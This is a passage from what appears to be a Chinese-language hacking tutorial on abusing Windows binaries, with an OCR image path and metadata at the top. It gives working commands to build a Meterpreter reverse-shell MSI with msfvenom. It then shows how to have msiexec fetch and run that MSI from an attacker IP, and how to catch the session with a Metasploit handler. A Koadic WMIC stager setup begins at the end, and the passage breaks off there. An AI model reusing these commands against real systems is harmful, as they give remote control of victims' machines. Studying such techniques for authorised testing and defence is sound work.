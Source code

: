 我们都知道Windows操作系统安装了Windows Installer引擎，**MSI软件包**  使用该引擎来  安装应用程序。解释包和安装产品的可执行程序是Msiexec.exe。  

**通过msfvenom启动msiexec攻击**

让我们使用Windows Meterpreter有效负载生成一个MSI包文件（1.msi），如下所示，并启动multi / handler作为监听器。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f  msi > 1.msi
```



![img](https://i0.wp.com/3.bp.blogspot.com/-vGSOtlKLyf8/XERxIg5stDI/AAAAAAAAcJU/v6tyxgZArS4nnRoEPCUeyU1Nq3kRug3ZgCLcBGAs/s1600/30.png?w=687&ssl=1)

一旦您在msiexec的帮助下在远程计算机上执行1.msi文件，您将在本地计算机（Kali Linux）上获得反向连接。

```
msiexec /q /i http://192.168.1.109/1.msi
```



![img](https://i2.wp.com/2.bp.blogspot.com/-8GkhktI-SyM/XERxIgj3uCI/AAAAAAAAcJQ/rRqB1uqd1DYLxa8iC7Gb-wOeqmdt1Jx4wCLcBGAs/s1600/31.png?w=687&ssl=1)

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```



您可以观察到，我们有受害者的计时器会话，如下所示：

![img](https://i2.wp.com/1.bp.blogspot.com/-Q9pZ_B32-vQ/XERxI4lTSlI/AAAAAAAAcJY/Tb_i1u2XXBUFsmhQJlP_KIcIMK2Hl9OBgCLcBGAs/s1600/32.png?w=687&ssl=1)

## 九、Wmic.exe

WMIC实用程序是Microsoft工具，提供WMI命令行界面，用于本地和远程计算机的各种管理功能，还用于本地或远程的系统设置，停止进程和执行脚本等wmic查询。因此，它可以调用**XSL脚本**（可扩展样式表语言）。

**通过Koadic发起Wmic.exe攻击**

现在将在koadic的帮助下生成恶意XSL文件，这是一个命令和控制工具，与Metasploit和Powershell Empire非常相似。

要了解koadic如何工作，请阅读我们的文章：<https://www.hackingarticles.in/koadic-com-command-control-framework/>

安装完成后，您可以运行  **./koadic**  文件以启动koadic并开始加载sta / js / wmic stager，方法是运行以下命令并设置SRVHOST，其中stager应该调用home。

```
use stager/js/wmic
set SRVHOST 192.168.1.107
run
```



![img](https://i1.wp.com/3.bp.blogspot.com/-Vr3Ajw9K7VE/XERxJ51_aTI/AAAAAAAAcJg/yjMRQ_m7kDM3-eb4F30bjGCmUYRNnMnjQCLcBGAs/s1600/36.png?w=687&ssl=1)
